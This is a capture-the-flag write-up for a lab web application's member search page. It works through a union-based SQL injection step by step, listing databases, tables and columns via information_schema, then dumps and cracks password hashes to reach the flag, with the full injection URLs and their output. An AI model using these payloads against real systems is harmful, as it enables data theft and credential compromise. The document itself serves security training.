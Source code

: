 # Sql_Injection_basic

The GET parameter in the member search form is vulnerable to sql Sql_Injection_basic

## Method

Go to the member search page (<http://192.168.1.102/?page=member>)  
In the search field search '1 and 1 = 1' (which shows you that the form is vulnerable)

## Manipulation

### getting current database name and listing all databases

```

http://192.168.1.102/?page=member&id=42 union select database(), schema_name from information_schema.schemata&Submit=Submit

```

#### result

```

ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : information_schema
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_images
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_survey

```

which shows that the current database is Member_Sql_Injection, the other databases are Member_Brute_Force, Member_guestbook, Member_images, Member_survey

### getting a list of tables in current database

```

http://192.168.1.102/?page=member&id=42 union select table_name, create_time from information_schema.tables where table_schema=database()&Submit=Submit

```

#### result

```
ID: 42 union select table_name, create_time from information_schema.tables where table_schema=database()
First name: users
Surname : 2015-09-16 15:55:03

```

which shows that the database has a table called users

### listing all column names and types

```

http://192.168.1.102/?page=member&id=42 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit

```

#### result

```

ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: user_id
Surname : int(11)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: first_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: last_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: town
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: country
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: planet
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: Commentaire
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: countersign
Surname : varchar(255)

```

which shows that we have the columns user_id, first_name, last_name, town, country, planet, Commentaire, countersign

### getting the password information

```

http://192.168.1.102/?page=member&id=42 union select Commentaire, countersign from users&Submit=Submit

```

#### result

```

ID: 42 union select Commentaire, countersign from users
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 42 union select Commentaire, countersign from users
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 42 union select Commentaire, countersign from users
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 42 union select Commentaire, countersign from users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

```

You can see that it gives us this helpful part that says Decrypt this password -> then lower all the char. Sh256 on it and it's good
We then follow this instruction to get the flag we need.

## How to get the flag

Decode the hash 5ff9d0165b4f92b14994e5c685cdce28 using the md5.gromweb.com website.  
Which gives us the original string "FortyTwo"  
lower all characters and as per the instructions Sh256 of fortytwo is: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  
We now have the flag (10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5)